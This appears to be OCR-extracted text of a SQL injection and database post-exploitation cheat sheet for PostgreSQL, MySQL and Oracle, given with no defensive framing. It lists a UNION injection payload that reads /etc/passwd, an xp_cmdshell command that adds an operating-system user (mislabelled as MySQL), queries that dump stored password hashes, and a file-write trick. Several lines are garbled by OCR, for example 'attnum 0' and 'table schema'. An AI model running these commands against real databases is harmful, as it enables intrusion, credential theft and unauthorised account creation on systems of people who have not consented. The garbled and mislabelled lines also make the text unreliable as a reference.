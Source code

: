 
LIST COLUMNS

SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid-C.oid) AND (A.atttypid=T.oid) AND (A.attnum 0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public')


LIST TABLES

SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r',") AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid)


MYSQL 

SELECT @@version;                             DB version	
SELECT @@hostname;                            Hostname & IP	
SELECT database();                            Current DB
SELECT distinct(db) FROM mysql.db;            List DBs
SELECT user();                                Current user	
SELECT user FROM mysql.user;                  List users
SELECT host,user,password FROM mysql.user;    List password hashes


LIST ALL TABLES & COLUMNS	

SELECT table schema, table name, column name FROM
information_schema.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'


EXECUTE OS COMMAND THROUGH MYSQL

osql -S ip, port -U sa -P pwd -Q "exec xp_cmdshell 'net user /add user pass'"


READ WORLD-READABLE FILES

...' UNION ALL SELECT LOAD_FILE('/etc/passwd');


WRITE TO FILE SYSTEM

SELECT * FROM mytable INTO dumpfile '/tmp/somefile';


ORACLE

SELECT * FROM v$version;                          DB version
SELECT version FROM v$instance;                   DB version
SELECT instance name FROM v$instance;             Current DB
SELECT name FROM v$database;                      Current DB
SELECT DISTINCT owner FROM all_tables;            List DBs
SELECT user FROM dual;                            Current user
SELECT username FROM all_users ORDER BY           List users
username;
SELECT column_name FROM all_tab_columns;          List columns
SELECT table_name FROM all_tables;                List tables
SELECT name, password, astatus FROM sys.user$;    List password hashes
